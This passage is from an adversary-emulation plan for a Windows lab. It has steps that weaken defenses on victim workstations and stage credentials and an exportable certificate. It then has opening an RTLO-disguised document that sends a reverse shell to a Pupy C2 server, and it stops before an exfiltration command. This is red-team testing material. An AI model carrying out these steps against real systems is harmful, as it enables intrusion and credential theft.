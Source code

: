 ### For each of the 2 victim workstations

1. Login in as user with administrator privileges
2. Ensure Windows Defender is off or configured to alert-only
3. Set UAC to never notify (<https://articulate.com/support/article/how-to-turn-user-account-control-on-or-off-in-windows-10>)
4. Verify user has read/write/execute permissions in the C:\Windows\Temp directory
5. Install Google Chrome (<https://www.google.com/chrome/>); cache credentials in Chrome password manager
6. Import-PFX certificate found in `payloads/shockwave.local.pfx`, instructions below

### Import PFX Certificate

Step 6.B of this emulation models theft of Private Keys (<https://attack.mitre.org/techniques/T1145/>).

1. Copy the PFX certificate located in the `payloads/shockwave.local.pfx` directory to the Windows victims.

2. Import the certificate using PowerShell:

```
Import-PfxCertificate -Exportable -FilePath "shockwave.local.pfx" -CertStoreLocation Cert:\LocalMachine\My
```

### Add RTLO character and place rcs.3aka3.doc on Windows Victim-1

* See `payload_configs.md` for instructions on how to update `cod.3aka3.scr`

## Beginning of Day1 Execution

### Step 1 - Initial Breach

#### 1.A

1. Login to victim workstation.
2. Double click `3aka3.doc` on Desktop

This will send a reverse shell to the Pupy C2 server.

#### 1.B

From Pupy C2 server:

[pupy] > `shell`

[pupy (CMD)] > `powershell`

### Step 2 - Rapid Collection and Exfiltration

#### 2.A

Paste the following PowerShell 1-liner into the Pupy terminal:
